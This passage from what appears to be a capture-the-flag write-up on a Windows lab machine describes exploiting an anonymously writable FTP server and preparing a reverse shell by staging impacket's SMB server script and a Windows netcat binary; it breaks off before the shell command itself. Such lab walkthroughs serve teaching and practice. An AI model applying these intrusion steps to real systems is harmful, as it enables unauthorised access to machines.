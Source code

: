 <img src="/images/blog/devel/ping.png" alt="ping test">

The response confirms that we've received a ping request from the FTP server--awesome. Now let's see if we can gain access to the machine with a reverse shell.

## Exploitation

So we know a few things already: 
* The FTP server is easily accessible by logging in as anonymous.
* We can easily transfer files from our local computer to the target via FTP.

Let's use this to our advantage. 

### Gaining Reverse Shell 

Our goal is to try and run malicious code to gain a reverse shell. I know that Kali Linux has a built-in SMB server through a python script so we can use that. If you're not sure where it's located in Kali Linux, we can use the `locate` command. Then when we can use the `cp` command to copy the script onto our current directory.

	root@kali:~# locate smbserver.py
	/usr/lib/python3/dist-packages/impacket/smbserver.py
	/usr/share/doc/python3-impacket/examples/smbserver.py
	root@kali:~# cp /usr/share/doc/python3-impacket/examples/smbserver.py .

To use the SMB server, we need to create a directory first. 

`mkdir smb` 

Then we'll need to locate the Windows binary for Netcat and copy it onto the smb directory. 

`cp /usr/share/windows-resources/binaries/nc.exe smb`
